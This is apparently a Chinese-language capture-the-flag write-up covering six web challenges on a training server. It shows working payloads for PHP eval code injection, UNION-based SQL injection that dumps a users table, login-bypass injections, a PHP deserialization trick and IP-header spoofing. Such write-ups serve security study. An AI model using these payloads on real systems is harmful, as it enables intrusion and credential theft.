


# 2022 Summer Training 3
## Reverse shell included
> You need reverse shell for this time.
>
> http://103.102.44.218:10020/

打开连接后是php源码。
```php
<?php 
if(!isset($_GET['str'])){
    show_source(__FILE__);
    die();
}
#GOAL: gather some phpinfo();
   
$str=@(string)$_GET['str'];
eval('$str="'.addslashes($str).'";');

//hint:flag in flag.php
```

根据提示，flag应该在flag.php里。

`addslashes()` 这个函数会将字符串中的单引号和双引号都转义掉，即 `'` 或 `"` 会被转义成 `\'` 或 `\"`。因此要想办法不用引号来绕过。

php有个特性叫 [Variable variables](https://www.php.net/manual/en/language.variables.variable.php)，可以通过这个来绕过。

构造 `?str=${phpinfo()}`，可以看到这个php版本是5.5.9


php 的大部分版本支持 unquoted string，即如果使用一个未被定义的变量（不以 $ 开头），php 会把它当成字符串来使用。如下所示：

```php
<?php
var_dump(Unquoted_strings);
?>
```


从 `string(16) "Unquoted_strings"` 可以看出确实将其当成了字符串。不过这个变量内不能有除大小写字母、数字、下划线以外的其他符号。

> 从 PHP 7.2.x 版本开始，该特性就会报 Warning 而不是 Notice。并且从 8.x.x 开始，这个就会抛出 Error 了。


（php在线沙盒：[PHP Sandbox](https://onlinephp.io/)）

读取文件并输出内容，可以用 `echo readfile("flag.php");`。经过base64加密后为 `ZWNobyByZWFkZmlsZSgiZmxhZy5waHAiKTs=`。构造payload

```
?str=${eval(base64_decode(ZWNobyByZWFkZmlsZSgiZmxhZy5waHAiKTs=))}
```

可以得到flag：flag{f98c6e4d2590ad8c215dd98025469511}



或者可以构造payload：

```
?str=${eval($_GET[sv])}&sv=echo readfile("flag.php");
```

一样可以得到flag。


## Not easy SQL injection
> Before the sql injection, some other things should be done...
> 
> http://103.102.44.218:10021/

打开链接后是php源码：
```php
<?php 
if(!isset($_GET['kw'])){
    show_source(__FILE__);
}
#GOAL:get password from admin
# $yourInfo=array(
#   'id'    => 1,
#   'name'  => 'admin',
#   'pass'  => 'xxx',
#   'level' => 1
# );
require 'db.inc.php';
   
$_CONFIG['extraSecure']=true;
   
//if register globals = on, undo var overwrites
foreach(array('_GET','_POST','_REQUEST','_COOKIE') as $method){
     foreach($$method as $key=>$value){
          unset($$key);
     }
}
   
$kw = isset($_GET['kw']) ? trim($_GET['kw']) : die('Please enter in a search keyword.');
   
if($_CONFIG['extraSecure']){
     $kw=preg_replace('#[^a-z0-9_-]#i','',$kw);
}
   
$query = 'SELECT * FROM messages WHERE message LIKE \'%'.$kw.'%\';';
   
$result = mysql_query($query);
if(mysql_errno())die(mysql_error());
$row = mysql_fetch_assoc($result);
   
echo "id: ".$row['id']."</br>";
echo "message: ".$row['message']."</br>";
?>
```

这道题的关键在于
```php
//if register globals = on, undo var overwrites
foreach(array('_GET','_POST','_REQUEST','_COOKIE') as $method){
     foreach($$method as $key=>$value){
          unset($$key);
     }
}
```

（也是利用了php的 [Variable variables](https://www.php.net/manual/en/language.variables.variable.php) 这个特性）会将 `$_GET, $_POST, $_REQUEST, $_COOKIE` 传入的参数删除（通过 unset()）。所以我们可以利用这点绕过正则匹配。

```php
if($_CONFIG['extraSecure']){
     $kw=preg_replace('#[^a-z0-9_-]#i','',$kw);
}
```

构造payload：

```
?_CONFIG=111&kw=
```

果然有返回


构造payload，查看这个数据库有什么表（AND 0 是为了避免掉原有的左边语句的查询）：

```
?_CONFIG=111&kw=' AND 0 UNION SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = database() LIMIT 0, 1; -- a
```


出了一些问题，说我的列数没对上。由php代码可知列数至少为2（'id'和'message'）。尝试构造payload：

```
?_CONFIG=111&kw=' UNION SELECT 1,1; -- a
```


```
?_CONFIG=111&kw=' UNION SELECT 1,1,1; -- a
```


```
?_CONFIG=111&kw=' UNION SELECT 1,1,1,1; -- a
```



可知一共有4列。于是可以继续查看表名，构造payload：

```
?_CONFIG=111&kw=' AND 0 UNION SELECT table_name,1,1,1 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = database() LIMIT 0, 1; -- a
```

不断更改 LIMIT 后的 0,1 为 1,1、2,1 …… 发现只有两张表，分别为messages和users。

查看一下这两张表的列名，构造payload：
```
?_CONFIG=111&kw=' AND 0 UNION SELECT column_name,1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'messages' LIMIT 0,1;-- a
```

```
?_CONFIG=111&kw=' AND 0 UNION SELECT column_name,1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'users' LIMIT 0,1;-- a
```

不断更改 LIMIT 后的 0,1 为 1,1、2,1、3,1，得到messages的4个列名分别为message、title、id、name，users的4个列名分别为id、name、pass、level。

很显然，messages表的message和id分别对应users表的id和pass，就不用太费心思去对应列名了。构造payload：

```
?_CONFIG=111&kw=' AND 0 UNION SELECT * FROM users LIMIT 0,1;-- a
```

得flag：flag{282d94bc992730a8ed98f32a531e23b8}


## PHP POP
> Yet another competition challenge.
>
> http://103.102.44.218:10023/

打开链接，看到php源码。

```php
<?php 
include("flag.php");
#GOAL: get the secret;
   
class just4fun {
    var $enter;
    var $secret;
}
   
if (isset($_GET['pass'])) {
    $pass = $_GET['pass'];
   
    if(get_magic_quotes_gpc()){
        $pass=stripslashes($pass);
    }
   
    $o = unserialize($pass);
   
    if ($o) {
    $o->secret=$flag;
        if ($o->secret === $o->enter)
            echo "Congratulation! Here is my secret: ".$o->secret;
        else
            echo "Oh no... You can't fool me";
    }
    else echo "are you trolling?";
}
else{
    show_source(__FILE__);
}
?>
```

这题的关键是构造一个序列化对象（即'pass'），使得解序列化后 \$o->secret === \$o->enter 。

php中存在着引用，用 `&` 表示，&$a 即表示对 $a 的引用；在序列化中用 `R` 表示。因此可通过 \$o->center = \&\$o->secret 来保证 $o 未知的情况下能通过判断。

构造序列化字符串：
```
O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
```
或可通过以下php代码生成：
```php
<?php
class just4fun{
	var $enter;
	var $secret;
	function __construct(){
		$this->enter = &$this->secret;
	}
}
echo serialize(new just4fun());
?>
```
输入后可得flag：flag{073270767ae37406ba052a441ea1d957}


## SQLI
> Inject me!
>
> http://103.102.44.218:10025/

打开链接，根据提示url后改为 /web9.php.bak，下载得到源码。


```php
<html>
    <head>
        welcome to simplexue
    </head>
    <body>
    <?php
        include(__FILE__);
        if(!isset($_POST['user'])){
	        show_source(__FILE__);
	        die();
        }
        $user = $_POST[user];
        $pass = md5($_POST[pass]);

        $sql = "select pw from php where user='$user'";
        $query = mysql_query($sql);
        if (!$query) {
	        printf("Error: %s\n", mysql_error($conn));
	        exit();
        }
        $row = mysql_fetch_array($query, MYSQL_ASSOC);
        //echo $row["pw"];
  
        if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	        echo "<p>Logged in! Key:************** </p>";
        }
        else {
            echo("<p>Log in failure!</p>");
	    }
    ?>
        <form method=post action=index.php>
            <input type=text name=user value="Username">
            <input type=password name=pass value="Password">
            <input type=submit>
        </form>
    </body>
    <a href="index.txt">
</html>
```

注意到用了md5加密password，故构造：（其中 `0cc175b9c0f1b6a831c399e269772661` 是 `a` 的32位md5值）

```
用户名：a' and 1=1 union select concat('0cc175b9c0f1b6a831c399e269772661') # 
密码：a
```

成功登录，获得flag：CTF{simple_sqli}


## Simple SQLI
> Finish this very fast and warm up!
>
> http://103.102.44.218:10026/

打开链接，根据提示url后改为 /web9.php.bak，下载得到源码。


```php
<html>
    <head>
        welcome to simplexue
    </head>
    <body>
    <?php
        include("../web9/db.php");
        $user = $_POST[user];
        $pass = md5($_POST[pass]);

        $sql = "select user from php where (user='$user') and (pw='$pass')";
        $query = mysql_query($sql);
        if (!$query) {
	        printf("Error: %s\n", mysql_error($conn));
	        exit();
        }
        $row = mysql_fetch_array($query, MYSQL_ASSOC);
        //echo $row["pw"];
        if($row['user']=="admin") {
            echo "<p>Logged in! Key: *********** </p>";
        }

        if($row['user'] != "admin") {
            echo("<p>You are not admin!</p>");
        }
    ?>
        <form method=post action=index.php>
            <input type=text name=user value="Username">
            <input type=password name=pass value="Password">
            <input type=submit>
        </form>
    </body>
    <a href="index.txt">
</html>
```

主要处理与上一题相同，这题最主要还是看如何绕过括号的限制。构造：
```
用户名：') or 1=1 union select concat('admin') # 
```

成功登录，获得flag：CTF{ANOTHER_simple_sqli}


## What's my IP address?
> The super duper IP address plus!
>
> http://103.102.44.218:10027/

打开链接，是php源码。

```php
<?php
include("flag.php");
function GetIP(){
    if(!empty($_SERVER["HTTP_CLIENT_IP"]))
        $cip = $_SERVER["HTTP_CLIENT_IP"];
    else if(!empty($_SERVER["HTTP_X_FORWARDED_FOR"]))
        $cip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    else if(!empty($_SERVER["REMOTE_ADDR"]))
        $cip = $_SERVER["REMOTE_ADDR"];
    else
        $cip = "0.0.0.0";
    return $cip;
}

$GetIPs = GetIP();
echo $GetIPs;

if ($GetIPs=="1.1.1.1") {
    echo "Great! Key is $flag";
}
else {
    echo "Error! Your IP address isn't in the legal range!";
}
show_source(__FILE__);
?>
```

用Burp Suite抓包，修改http文件头，发送得flag：flag{d9824328210b0bb774c3b27db3bc8acc}。

